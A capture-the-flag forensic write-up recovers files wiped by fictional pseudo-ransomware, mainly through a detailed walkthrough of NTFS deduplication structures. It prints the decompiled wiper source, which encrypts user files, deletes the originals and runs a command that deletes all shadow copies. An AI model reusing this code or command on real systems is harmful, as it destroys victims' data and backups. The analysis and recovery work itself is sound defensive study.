# Stay Hydrated

## Scenario

Horizon Trust Solutions is panicking after a disguised wiper attack encrypted deployment servers. The perpetrators, using the DeadDrop Cartel proxy, left no ransom note, exposing their motive as state-sponsored sabotage. Directorate 9 operatives lurked in our network for months, mapping federation trusts and harvesting credentials to orchestrate this deep-seated assault. At stake is the core validation framework for the Trusted Supply Chain Act, built for the National Election Commission. With polls opening in days, the pristine deployment package was finalized for handover. In a calculated move, Vane's forces struck at the eleventh hour to maximize public panic and disruption. The geopolitical repercussions are immense; failing to deliver compromises the election and cements Korvia's leverage. Task Force Nightfall implores your expertise to recover the uncorrupted release package from the crippled staging environment.

## Given artifact

A `C.vhdx` disk file and an encase evidence file `D.E01`

## Solving process

I start by loading the two artifacts to FTK Imager, the C vhdx file is not a full disk copy, it's just captured by KAPE and a lot of things are missing, we mainly see configuration files here rather than user's data:



Pivot to encase evidence file D, right inside the root directory, I see a suspicious executable here:



What's more, all user's file are encrypted with `.enc` extension, the size is 256 bytes longer compared to the original, and the original file's data is all overwritten with zeros:



As mentioned in the scenario, this wiper seems to be pseudo-ransomware, its goal is not encrypted file for money, indeed it aims to destroy all the files, sabotage purpose instead.

But let's first export the `main.exe` for investigation:



It's PE32+ executable, however, decompiling it with ghidra yields unreadable code, so I submit it to VirusTotal to see whether it's somehow packed or obfuscated. It turns out to be packed by PyInstaller to a complete executable file, so let's use `pyinstxtractor.py` to unpack it:



We may use `pycdc (Decompyle++)` to decompile it:



However, while trying to install pycdc, I find [this website](https://pylingual.io/), it produces cleaner code and successfully decompiles more function than pycdc:

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'main.py'
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

from Crypto.PublicKey import RSA
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Util import Counter
import argparse
import os
import sys
import base64
import subprocess
def discoverFiles(startpath):
    # ***<module>.discoverFiles: Failure: Compilation Error
    extensions = ['jpg', 'jpeg', 'bmp', 'gif', 'png', 'svg', 'psd', 'raw', 'mp3', 'mp4', 'm4a', 'aac', 'ogg', 'flac', 'wav', 'wma', 'aiff', 'ape', 'avi', 'flv', 'm4v', 'mkv', 'mov', 'mpg', 'mpeg', 'wmv', 'swf', '3gp', 'doc', 'docx', 'xls', 'xlsx', 'ppt', 'pptx', 'odt', 'odp', 'ods', 'txt', 'rtf', 'tex', 'pdf', 'epub', 'md', 'dat', 'yml', 'yaml', 'json', 'xml', 'csv', 'db', '
    for dirpath, dirs, files in os.walk(startpath):
        for i in files:
            absolute_path = os.path.abspath(os.path.join(dirpath, i))
            ext = absolute_path.split('.')[(-1)]
            if ext in extensions:
                yield absolute_path
def modify_file_inplace(filename, crypto, blocksize=16):
    with open(filename, 'r+b') as f:
        plaintext = f.read(blocksize)
        while plaintext:
            ciphertext = crypto(plaintext)
            if len(plaintext)!= len(ciphertext):
                raise ValueError('Ciphertext({})is not of the same length of the Plaintext({}).\n                Not a stream cipher.'.format(len(ciphertext), len(plaintext)))
            f.seek(-len(plaintext), 1)
            f.write(ciphertext)
            plaintext = f.read(blocksize)
AES_KEY = os.urandom(32)
SERVER_PUBLIC_RSA_KEY = '-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqH8e7yL04ioy7lHiE/Jo\nVdyt2HQ6WsiRZu+WPu9h/Q4qK55T/p7X37SPhumD4uQVM8DyZstrIDr9t0qfQ3tv\nyhKupFTRkWgE8PjCj/ypQseKLmWhv75Cf7Eh6C/9UCT85blmd9yk6XrYrf6Zs42t\nBU6CTFWpnIGQqouzcDeS0hTrsfXpdTyEnoITwnCkXdHa4NjE4Eb8iiIcW7/Kj4Hv\nes7HBmifCfpKPMorVFk0NC2Q9Inm4sE16xVYBXP1BIIdZnkS7jogjJ+BU8q5TTnY\nejjEzUrpVRteXjEVXLOgHIqwkVMu94FSpvbPnn79HAnoSek9i0PvYf6e5gGB5LPr\nUQIDAQAB\n-----END PUBLIC KEY-----'
extension = '.enc'
def parse_args():
    parser = argparse.ArgumentParser(description='Ransomware')
    return parser.parse_args()
def main():
    try:
        args = parse_args()
        startdirs = [os.getcwd()]
        server_key = RSA.importKey(SERVER_PUBLIC_RSA_KEY)
        encryptor = PKCS1_OAEP.new(server_key)
        encrypted_key = encryptor.encrypt(AES_KEY)
        encrypted_key_b64 = base64.b64encode(encrypted_key).decode('ascii')
        print('Encrypted key ' + encrypted_key_b64 + '\n')
        key = AES_KEY
        ctr = Counter.new(128)
        crypt = AES.new(key, AES.MODE_CTR, counter=ctr)
        original_files = []
        for currentDir in startdirs:
            for file in discoverFiles(currentDir):
                if not file.endswith(extension):
                    try:
                        with open(file, 'rb') as f:
                            plaintext = f.read()
                        ciphertext = crypt.encrypt(plaintext)
                        with open(file + extension, 'wb') as f:
                            f.write(ciphertext)
                            f.write(encrypted_key)
                        original_files.append(file)
                        print('File encrypted: ' + file + ' -> ' + file + extension)
                    except Exception as e:
                        print(f'Failed to encrypt {file}: {str(e)}')
        try:
            for orig_file in original_files:
                try:
                    os.remove(orig_file)
                    print('Original file deleted: ' + orig_file)
                except (OSError, PermissionError) as e:
                    print(f'Failed to delete {orig_file}: {str(e)} - Skipping.')
        except Exception as e:
            print(f'Unexpected error during file deletion: {str(e)}')
        try:
            subprocess.run(['vssadmin', 'delete', 'shadows', '/all', '/quiet'], check=True)
        except subprocess.CalledProcessError:
            pass
    except Exception as e:
        print(f'Error: {str(e)}')
        sys.exit(1)
    for _ in range(100):
        continue
if __name__ == '__main__':
    main()
```

TL;DR: It collects all user's file based on extensions, generate AES key with `os.random()`, then wraps them with `RSA-2048-OAEP` using `SERVER_PUBLIC_RSA_KEY` and prints to stdout. After the process exits, the raw AES key was gone from RAM. What survives on disk is only the RSA-encrypted copy of it appended to every .enc (those 256 trailing bytes).

As expected, we cannot recover these file cryptographically, `os.random()` reads from the OS CSPRNG (BCryptGenRandom/getrandom). It's not seeded from anything observable, doesn't repeat, and isn't logged. What is more, the private RSA key is on the attcker server, we cannot obtain, RSA-2048 is not factorable.

So the path of decrypting files is a dead-end. While inspecting other directories, I stumble upon this, and the new path opens, even though it's a very complicated path - [NTFS deduplication](https://learn.microsoft.com/en-us/windows-server/storage/data-deduplication/understand):



> Read the article I attached above, it's delivered by Microsoft, very comprehensible. In short, `deduplication` is a way of storage optimization by storing identical chunks of data as only one instance inside a folder, together with its recipe (like chunk A + chunk C = file A...), and the visible file only contains the pointer to its chunk (called the reparse point). Let's imagine this scenario:
>
> **What dedup solves**
> 
> A real file server in a real company is full of duplicate data. Three teams have copies of the same PowerPoint template. Twenty developers checked out the same vendor SDK. Every employee's Documents folder has the same onboarding PDF. On a 1 TB file server, it's common for 30–60% of the bytes to be redundant — literally the same bytes stored in different places under different filenames.
> 
> The dumb fix is to hash every file with SHA-256 and keep just one copy with hardlinks. It barely helps — it can't catch two PowerPoints that differ by one slide.
>
> **The clever idea — chunks, not files**
> 
> Split every file into 32–128 KB chunks. Hash each chunk. If a chunk's hash matches one already stored, throw the duplicate away and just record "file X uses chunk Y". Two near-identical files now share 99% of their chunks; only the differences cost extra space.
> 
> One subtlety: if you naively cut at every 64 KB, inserting one byte at the start of a file shifts every boundary and no chunks match anymore. So real dedup uses content-defined chunking — a rolling hash decides cut points based on the data itself, so an inserted byte only changes one chunk's boundary. This is why NTFS dedup chunks are "32–128 KB" rather than a fixed size: the boundaries float to match content.
>
> **How it looks on disk**
> 
> NTFS Dedup splits every dedup'd file into two parts:
> 
> `One — a 264-byte reparse-point "file" in the normal directory tree`. That's all that's visible. It says "Hi, I'm report.pdf. I'm 12 MB logically, but my real bytes are in chunk store {77F96...}, look me up by this stream key." If you dir the folder you see report.pdf looking normal; if you opened it in a hex editor with dedup turned off, you'd see 264 bytes of metadata and nothing else.
> 
> `Two — the chunk store`, hidden under `\System Volume Information\Dedup\ChunkStore\{GUID}.ddp\`. Two subdirectories matter:
>
> - `Data\*.ccc` — the unique chunks themselves
> - `Stream\*.ccc` — for every dedup'd file, an ordered list of which chunks reconstruct it
>
> When something reads report.pdf, NTFS sees the reparse point, hands the request to the dedup driver (ddpsvc), which reads the stream map to find the chunk list, fetches each chunk from the data containers, glues them together in RAM, and returns the bytes. The reading program never knows dedup is happening — it just sees a normal 12 MB PDF.
>
> **Why this saved our case**
> 
> When the wiper called os.remove("report.pdf"), NTFS freed the 264-byte reparse-point file and marked its MFT entry deleted. It did not touch the chunk store — the chunk store doesn't know which file just got deleted, it just keeps the chunks until a garbage-collection sweep decides they're unreferenced. That GC didn't run before the image was taken. So:
>
> -The visible file is gone (MFT entry deleted)
> 
> -The 264-byte reparse blob is still sitting on the cluster the MFT entry used to point to
> 
> -The actual chunks are still in `Data\*.ccc`, untouched
> 
> -The stream map listing them is still in `Stream\*.ccc`, untouched

Before we can even think to a script, let's explorer some file's structure:

**Structure 1: The MFT record**

The MFT (Master File Table) is a special file on the NTFS volume that holds one record per file. Every file, every directory, every system metadata file has exactly one MFT record. The MFT itself is a file whose records describe other files — including its own.

Each record is 1024 bytes (this is fixed for NTFS — set in $Boot byte 64, but in practice always 1024). The record has two parts:

```text
+-------------------+
|   Record header   |   ~42 bytes — fixed layout
+-------------------+
|   Attribute 1     |   variable length
+-------------------+
|   Attribute 2     |   variable length
+-------------------+
|       ...         |
+-------------------+
|   0xFFFFFFFF      |   end-of-attributes marker
+-------------------+
|     unused        |   padding to 1024
+-------------------+
```

A file isn't a single thing — it's a collection of attributes. The filename is one attribute. The data is another attribute. Permissions are another. Each attribute has a type number; the ones that matter for us are:


| Type | Name | What it holds |
| :--- | :--- | :--- |
| `0x10` | `$STANDARD_INFORMATION` | timestamps, flags |
| `0x30` | `$FILE_NAME` | the filename + parent directory's MFT record number |
| `0x80` | `$DATA` | the file contents (or a pointer to them) |
| `0xC0` | `$REPARSE_POINT` | the 264-byte dedup blob (only for dedup'd files) |

The 42-byte structure of the record header is:

```text
Offset  Size  Field                          Used for
------  ----  ----------------------------   ----------------------------
0x00    4     Magic = "FILE"                 sanity check
0x04    2     Update sequence offset
0x06    2     Update sequence size
0x08    8     LogFile sequence number
0x10    2     Sequence number
0x12    2     Hard link count
0x14    2     First attribute offset         <-- where Attribute 1 starts
0x16    2     Flags                          <-- bit 0: in-use; bit 1: directory
0x18    4     Used size of record
0x1C    4     Allocated size (always 1024)
0x20    8     Base MFT reference
0x28    2     Next attribute ID
0x2A    2     Padding
```

Two fields in here drive everything in the parser:

- `byte 0x16` (the flags field): bit 0 = "in use". flags & 0x01 == 0 means the file was deleted. That's how you find the wiper's victims.
- `byte 0x14` (first attribute offset): tells you where to start walking attributes.

Starting at `first_attribute_offset` , you read attribute headers one after another until you hit `0xFFFFFFFF` (= "no more attributes"). Each attribute header starts with:

```text
Offset  Size  Field
------  ----  -------------------------
0x00    4     Attribute type (0x10, 0x30, 0x80, 0xC0, …, or 0xFFFFFFFF = end)
0x04    4     Length of this entire attribute (header + body)
0x08    1     Non-resident flag (0 = body is inline, 1 = body is elsewhere on disk)
0x09    1     Name length
0x0A    2     Name offset
0x0C    2     Flags
0x0E    2     Attribute ID
```

After byte 0x0E the layout splits: resident attributes have the body packed right in the MFT record, non-resident attributes have data runs pointing to clusters elsewhere.
`Resident layout` (body inside MFT record — for small attributes):

```text
0x10    4     Content length      ← size of the body
0x14    2     Content offset      ← where in this attribute the body starts
0x16    1     Indexed flag
... body starts at content offset ...
```

Non-resident layout (body lives in clusters elsewhere — for large data):

```text
0x10    8     Starting VCN
0x18    8     Ending VCN
0x20    2     Data runs offset
...
0x28    8     Allocated size
0x30    8     Real (logical) size   ← THE FILE SIZE
0x38    8     Initialized size
... data runs at data runs offset ...
```

That `Real size` at byte 0x30 of a non-resident attribute is how you get a file's actual size in bytes without reading the file

**Two attributes we actually care about**

`$FILE_NAME` (0x30) is resident (always small). Its body is:

```text
Offset  Size  Field
------  ----  -------------------------
0x00    6     Parent MFT reference (6 bytes — record # within 48 bits)
0x06    2     Parent sequence number
0x08    8     Created time
0x10    8     Modified time
0x18    8     MFT-modified time
0x20    8     Accessed time
0x28    8     Allocated size
0x30    8     Real size
0x38    4     File attributes
0x3C    4     Reparse value
0x40    1     Name length (in characters)
0x41    1     Namespace (0=POSIX, 1=Win32, 2=DOS, 3=Win32&DOS)
0x42    var   Name in UTF-16-LE
```

`$REPARSE_POINT` (0xC0) is what flags a file as dedup'd. The first 4 bytes of its body are the reparse tag, and `0x80000013 = IO_REPARSE_TAG_DEDUP`

**Structure 2 — The 264-byte reparse blob**

This is the body of the `$REPARSE_POINT` attribute (or the cluster it points to if non-resident). 264 bytes total. Its layout is the most awkward of the formats here because it's "self-describing" via an inline table — not the usual flat header.

```text
+----------------------+
|   8-byte header      |   tag, length, reserved
+----------------------+
|   8-byte constant    |   format marker
+----------------------+
|   table of (id,sz,o) |   variable rows ending in zero-row
+----------------------+
|   data fields        |   addressed by offsets in the table
+----------------------+
```

**The 16-byte fixed prefix**

```text
Offset  Size  Field
------  ----  -------------------------
0x00    4     Reparse tag = 0x80000013
0x04    2     ReparseDataLength = 0x0100 (256 — i.e. the 256 bytes after this header)
0x06    2     Reserved = 0
0x08    8     Format header constant: 02 01 00 01 0b 00 00 00
```

**The table(variable, start at 0x10)**

A series of 8-byte rows; each row is one entry pointing into the data area:

```text
Row layout (8 bytes):
0x00  4   field id
0x04  2   field size in bytes
0x06  2   field offset (from the start of the blob)
```

Read rows until you hit one that's all zeros (the terminator). One example is :

```text
Offset  Bytes                          Meaning
0x10    04 00 00 00  04 00  60 00      id=4, size=4 bytes, lives at offset 0x60
0x18    03 00 00 00  04 00  64 00      id=3, size=4, offset 0x64
0x20    03 00 00 00  04 00  68 00      id=3, size=4, offset 0x68
0x28    06 00 00 00  08 00  6c 00      id=6, size=8, offset 0x6C
0x30    09 00 00 00  10 00  74 00      id=9, size=16, offset 0x74    ← ChunkStore GUID
0x38    05 00 00 00  08 00  84 00      id=5, size=8, offset 0x84
0x40    06 00 00 00  08 00  8c 00      id=6, size=8, offset 0x8C
0x48    0a 00 00 00  20 00  d4 00      id=10, size=32, offset 0xD4   ← stream key
0x50    08 00 00 00  40 00  94 00      id=8, size=64, offset 0x94    ← contains file size at +0x30
0x58    00 00 00 00  00 00  00 00      end of table
0x60    05 00 00 00  08 00  f4 00      first data field starts here
```

**The data fields (at offsets named in the table)**

Only three fields matter for recovery:


| Field id | Size | What it is |
| :--- | :--- | :--- |
| `0x09` | 16 bytes | **ChunkStore GUID** — tells you which `{...}.ddp\` folder under `\System Volume Information\Dedup\ChunkStore\` to look in |
| `0x08` | 64 bytes | **Extended metadata.** Bytes `0x30`..`0x37` of *this 64-byte field* hold the **logical file size** as a little-endian uint64 |
| `0x0A` | 32 bytes | **Stream key.** Identifier the dedup driver uses internally to look up the file's stream map. **Not searchable as bytes in the stream containers — it's an index key, not a record field.** We don't actually need it for recovery |

Done with MFT, now let's pivot to the actual folder where deduplicated files' data is located:

```text
\System Volume Information\Dedup\ChunkStore\{GUID}.ddp\
├── Data\
│   ├── 00000001.00000001.ccc       ← chunk container ("Cthr" magic)
│   ├── 00000002.00000001.ccc       ← chunk container
│   ├── 00000003.00010000.ccc       ← chunk container
│   └── 00000004.00010000.ccc       ← chunk container
├── Stream\
│   ├── 00010000.00000003.ccc       ← streammap container ("Cthr" magic)
│   └── 00020000.00000002.ccc       ← streammap container
└── State\, COW\, Hotspot\          ← not used by recovery
```

The .ccc extension is the same for both Data and Stream files, and both start with the same Cthr ("Chunk Thread") magic at byte 0. The contents differ: Data containers hold raw file chunks; Stream containers hold per-file recipes ("which chunks, in what order, make this file"). Think of them like a recipe book and a pantry.
We work with three structures inside these:

**Structure 3 — The Smap header (inside a Stream container)**

The "streammap" header. Sits inside `Stream\*.ccc` and marks the start of one file's chunk list. There's one Smap per dedup'd file.

```text
Offset  Size  Field                          Used for
------  ----  ----------------------------   ----------------------------
0x00    4     Magic = "Smap"                 finding stream headers
0x04    4     Version                        (ignore)
0x08    4     Record ID                      (ignore for recovery)
0x0C    4     Flags                          (ignore)
0x10    4     first_chunk_offset             where in Data\*.ccc chunk 0 starts
0x14    4     first_container_number         which Data\*.ccc file holds chunk 0
```

After byte 0x18 the stream records start (Structure 4 below), one after another, until cumulative offset reaches the file's logical size.

The two fields you care about are `first_chunk_offset` and `first_container_number` — together they say "the first chunk of this file lives at byte X of container N". Every subsequent chunk's location is reached via the previous record's `next_chunk_offset` and `container_number`. This is the "linked list" of chunks for that file.

But there comes a problem, we cannot locate what `Smap` belongs to the file we are recovering, but there is a trick, we will talk after inspecting the Stream record

**Structure 4 — The stream record (the per-chunk recipe entry)**

This is the 64-byte fixed record that comes right after an Smap. Each record describes one chunk of one file: where it lives in a Data container, how big it is on disk, what hash it has, where the next chunk is.

```text
Offset  Size  Field                          Used for
------  ----  ----------------------------   ----------------------------
0x00    8     cumulative_end_offset          logical end of THIS chunk in the file
                                             (= sum of all logical chunk sizes so far)
0x08    32    chunk_sha256                   SHA-256 of the decompressed chunk content
0x28    8     stored_size_in_container       physical bytes the chunk occupies in Data\*.ccc
0x30    4     record_id                      (ignore for recovery)
0x34    4     container_number               WHICH Data\*.ccc file holds the NEXT chunk
0x38    4     next_chunk_offset              BYTE offset of the NEXT chunk's Ckhr header
0x3C    4     flags                          (ignore)
```

So the aforementioned issue is resolved, we walk from each Smap to all of that file's records, if the final `cumulative_end_offset` happens to match our file's size, it's our file (indeed there may be some file with exactly same size, but not in this case)

Also, the `container_number` and `next_chunk_offset` will point us to the next chunk of that file

What's more, stored_size_in_container is the physical (on-disk, possibly compressed) size, not the logical (decompressed) size. That's how you detect Xpress compression:

- If `stored_size == cum[i] - cum[i-1]` → chunk is stored raw, use as-is.
- If `stored_size < cum[i] - cum[i-1]` → chunk is Xpress-compressed; decompress, expecting output of size `cum[i] - cum[i-1]`.

**Structure 5 — The Ckhr chunk header (inside a Data container)**

This is what `next_chunk_offset` points to. Sits at the start of every chunk in `Data\*.ccc`:

```text
Offset  Size  Field                          Used for
------  ----  ----------------------------   ----------------------------
0x00    4     Magic = "Ckhr"                 sanity check
0x04    4     Version (01 03 03 01)          (ignore)
0x08    4     record_id                      should match stream record's record_id
0x0C    4     stored_size                    should match stream record's stored_size
0x10    16    format flags / sub-table       (ignore)
0x20    8     reserved (zeros)               (ignore)
0x28    32    chunk_sha256                   should match stream record's chunk_sha256
-- end of 72-byte Ckhr header --
0x48    16    per-chunk preamble             OPAQUE — discard, but don't skip the seek!
0x58    N     chunk payload (N=stored_size)  RAW bytes if stored==logical, else Xpress
0x58+N  pad   padding to next 32-byte boundary
```

**Why the SHA-256 in both the stream record and the chunk header?**
Two reasons. First, redundancy — the dedup driver can quickly verify that the chunk at offset X really is the chunk record N expects. Second, it's how you handle the container-disambiguation problem : when a stream record says `container_number = 0x10000`, the filename `00000003.00010000.ccc` matches AND `00000004.00010000.ccc` matches because both have 0x10000 as their second segment. You enumerate both candidates and pick whichever has a Ckhr at the expected offset whose embedded SHA-256 matches the stream record's

**So the chain is like this**

```text
MFT record (1024B)
  ↓ has $REPARSE_POINT (0xC0)
  ↓ pointing to a cluster on disk
  ↓
[Reparse blob — 264B]
  ↓ table tells you offsets of fields
  ↓ field id 0x09 = ChunkStore GUID  (which chunkstore folder)
  ↓ field id 0x08 +0x30 = logical file size
  ↓
[Stream container — Stream\NNNNNNNN.MMMMMMMM.ccc]
  ↓ search bytes for "file_size as LE uint64"
  ↓ from each Smap header, walk to the end, check if it matches candidate file's size
  ↓
[Smap header — 24B]
  ↓ tells you (first_chunk_offset, first_container)
  ↓
[Stream record array — 64B per record, one per chunk]
  ↓ for each record:
  ↓   - logical chunk size = cum[i] - cum[i-1]
  ↓   - find Ckhr in Data\*.ccc at (prev next_chunk_offset, prev container)
  ↓     via SHA-256 match — handles multi-container ambiguity
  ↓
[Ckhr chunk in Data\*.ccc — 72B header + 16B preamble + stored_size B payload]
  ↓ skip 88 bytes, read stored_size bytes of payload
  ↓ if stored_size == logical: raw bytes
  ↓ if stored_size <  logical: Xpress-decompress to exactly logical bytes
  ↓
[concatenate all chunks]
  ↓ verify total length == file size
  ↓ verify file-magic (PDF, 7z, docx, ...)
  ↓
Recovered file
```

Mapping those knowledge to a script, you can refer to [mine](/dedup_extractor.py) here, I try my best to comment what each step do, hope you will get something... In short, it follows this chain:

```text
[E01 file]
   ↓ pyewf
[byte stream]
   ↓ pytsk3 over EWFImgInfo
[NTFS filesystem]
   ↓ MFTParser → records dict
   ↓ discover_targets → Target list (filtered to dedup'd files)
   ↓
for each Target:
   ↓ DedupStore.candidates_for_size  → Smaps where chain length matches file size
   ↓ DedupStore.rehydrate            → walk chain, fetch chunks, decompress, concatenate
   ↓ magic-byte sanity check
   ↓ write file + JSONL manifest entry
```



We successfully recover almost every deduplicated file ( I guess ? ) , note that only deleted file are revived with this script, It will not revive files that are still present on disk and seeable in FTK Imager, so we need to export them if needed.

By the way, when looking at FTK Imager once more, I even see these `.env` file not deleted lmao:

